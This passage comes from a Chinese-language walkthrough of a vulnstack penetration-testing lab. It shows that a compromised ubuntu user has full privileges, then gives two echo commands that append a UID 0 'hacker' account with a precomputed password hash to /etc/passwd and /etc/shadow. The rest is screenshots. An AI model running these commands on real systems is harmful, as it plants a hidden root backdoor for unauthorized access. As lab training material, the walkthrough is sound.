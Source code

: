 <img src="vulnstack靶场系列四/image-20231209093248813.png" alt="image-20231209093248813" style="zoom:67%;" />	



查看ubuntu用户的权限，发现其拥有所有权限

![image-20231209093957741](vulnstack靶场系列四/image-20231209093957741.png)



### 3.创建用户

除了上述两种方法可以实现远程ssh连接目标主机之外，还可以直接向`/etc/passwd`和`/etc/shadow`写入root权限的用户，例如此处我写入一个`hacker`用户，其密码是`qq123456`

```
echo 'hacker:x:0:0::/home/hacker:/bin/bash' >> /hacker/etc/passwd

echo 'hacker:$6$d2ABl4.a$1I0lpjZuR/DIU6o/awc904ewsr643Qsss6QqSf8Q7.yUQ9QFNQx6eJQXOQV9f/fduO8AeLYLUjKOgN7f.ZdeV0:19700:0:99999:7:::' >> /hacker/etc/shadow
```

![image-20231209105711831](vulnstack靶场系列四/image-20231209105711831.png)
